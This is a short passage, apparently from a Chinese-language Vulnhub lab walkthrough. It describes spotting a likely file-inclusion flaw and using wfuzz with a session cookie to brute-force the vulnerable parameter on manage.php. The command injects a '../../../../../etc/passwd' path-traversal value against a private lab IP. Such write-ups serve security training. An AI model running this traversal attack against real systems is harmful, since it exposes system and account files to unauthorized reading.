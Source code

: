 ```
由于存在一个files不存在的提示，那么说明极其可能存在文件包含的漏洞。
```

![image-20241206205639898](vulnhub靶场实战/image-20241206205639898.png)	

```
但是不知道有哪些参数，所以使用wfuzz暴力得到参数。但是由于响应包的word数量都是100，所以使用--hw做了过滤。最后暴力获得参数file.
wfuzz -b 'PHPSESSID=utal40t5t9mqt5d7p8n4d40rfk' --hw 100 -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.15.136/manage.php?FUZZ=../../../../../etc/passwd
```

![image-20241206210207827](vulnhub靶场实战/image-20241206210207827.png)	
